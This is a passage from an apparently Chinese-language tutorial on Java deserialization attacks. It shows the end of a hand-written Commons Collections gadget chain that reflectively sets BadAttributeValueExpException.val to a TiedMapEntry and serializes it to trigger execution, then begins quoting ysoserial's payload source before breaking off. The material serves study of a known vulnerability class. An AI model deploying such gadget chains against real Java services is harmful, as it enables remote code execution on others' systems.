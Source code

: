 ```java=
        TiedMapEntry tiedMapEntry = new TiedMapEntry(decorateMap,"123");// 后一个参数是 ChainedTransformer.transform(key) 的参数，因为会被转化，所以可以随便写。

        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        Class bad = badAttributeValueExpException.getClass();
        Field field = bad.getDeclaredField("val");
        field.setAccessible(true);
        field.set(badAttributeValueExpException,tiedMapEntry);

        serialize(badAttributeValueExpException);
        unserialize("ser.bin");



    }
    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        objectOutputStream.writeObject(obj);
    }
    public static void unserialize(String name) throws IOException, ClassNotFoundException {
        ObjectInputStream objectInputStream = new ObjectInputStream(new FileInputStream(name));
        objectInputStream.readObject();
    }
}

```
### YSO 的 EXP
```java=
package ysoserial.payloads;

import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.util.HashMap;
import java.util.Map;

import javax.management.BadAttributeValueExpException;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import ysoserial.payloads.annotation.Authors;
import ysoserial.payloads.annotation.Dependencies;
import ysoserial.payloads.annotation.PayloadTest;
import ysoserial.payloads.util.Gadgets;
import ysoserial.payloads.util.JavaVersion;
import ysoserial.payloads.util.PayloadRunner;
import ysoserial.payloads.util.Reflections;

/*
	Gadget chain:
        ObjectInputStream.readObject()
            BadAttributeValueExpException.readObject()
                TiedMapEntry.toString()
                    LazyMap.get()
                        ChainedTransformer.transform()
                            ConstantTransformer.transform()
```